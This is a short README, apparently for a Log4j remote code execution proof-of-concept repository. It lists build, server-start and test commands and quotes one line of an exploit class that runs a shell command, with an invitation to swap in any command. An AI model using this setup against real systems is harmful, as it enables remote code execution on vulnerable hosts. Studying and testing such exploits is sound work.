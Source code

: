 ### Build
`./build.sh`

### Start log4j RCE Server
`./start-log4j-rce-server.sh`

### Test
- Run `java -cp log4j-rce-1.0-SNAPSHOT-all.jar log4j`
Check if you get logs in hack.log from current folder
- You can change this line  
`String[] cmds = { "sh", "-c", "echo 'Exploit at '" + getDateString() + " >> ./hack.log" };`  
in file `apache-log4j-poc/src/main/java/Exploit.java`
to whatever you like then rebuild and run test

### Credits
- https://github.com/tangxiaofeng7/apache-log4j-poc.git
- https://github.com/mbechler/marshalsec.git
